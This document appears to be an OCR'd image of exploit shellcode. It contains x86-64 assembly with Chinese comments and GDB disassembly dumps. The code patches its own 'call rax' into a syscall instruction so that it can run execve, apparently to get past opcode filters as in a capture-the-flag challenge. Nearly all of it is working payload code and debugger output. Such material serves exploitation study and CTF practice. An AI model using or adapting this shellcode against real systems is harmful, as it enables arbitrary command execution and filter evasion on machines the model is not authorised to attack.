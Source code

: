 ```asm
    push rsi
    mov byte [rsi-8], 0x0f        ; 将 0x0f 写入地址 rsi-8 # 这个地址的位置就是 call rax的地址
    mov byte [rsi-7], 0x05       ; 将 0x05 写入地址 rsi-7 
    xor rax, rax                 ; 清空 rax
    mov al, 0x3b                 ; 将 59 (sys_execve) 移动到 rax
    lea rdi, [rel filename]      ; 将字符串 filename 移动到 rdi
    xor rsi, rsi                 ; 清空 rsi
    xor rdx, rdx                 ; 清空 rdx
    call rax                     ; 前面的mov byte [rsi-8], 0x0f 和 mov byte [rsi-7], 会将0x05 这个地方修改为syscall 指令
    ret

call_code:
    call code                    ; 跳转到 code 标签并将返回地址压入栈
    times 0x10 nop               ; 0x10个 nop 指令
    


=> 0x1c121004:  movb   $0xf,-0x8(%rsi)
   0x1c121008:  movb   $0x5,-0x7(%rsi)
   0x1c12100c:  xor    %rax,%rax
   0x1c12100f:  mov    $0x3b,%al
   0x1c121011:  lea    0x20(%rip),%rdi        # 0x1c121038
   0x1c121018:  xor    %rsi,%rsi
   0x1c12101b:  xor    %rdx,%rdx
   0x1c12101e:  call   *%rax
   0x1c121020:  ret
   0x1c121021:  call   0x1c121002
   0x1c121026:  nop
   0x1c121027:  nop
   0x1c121028:  nop
   0x1c121029:  nop
   0x1c12102a:  nop
   0x1c12102b:  nop
   0x1c12102c:  nop

=> 0x1c12100c:  xor    %rax,%rax
   0x1c12100f:  mov    $0x3b,%al
   0x1c121011:  lea    0x20(%rip),%rdi        # 0x1c121038
   0x1c121018:  xor    %rsi,%rsi
   0x1c12101b:  xor    %rdx,%rdx
   0x1c12101e:  syscall
   0x1c121020:  ret
   0x1c121021:  call   0x1c121002
   0x1c121026:  nop
   0x1c121027:  nop
   0x1c121028:  nop
   0x1c121029:  nop
   0x1c12102a:  nop
   0x1c12102b:  nop
   0x1c12102c:  nop
   0x1c12102d:  nop

```
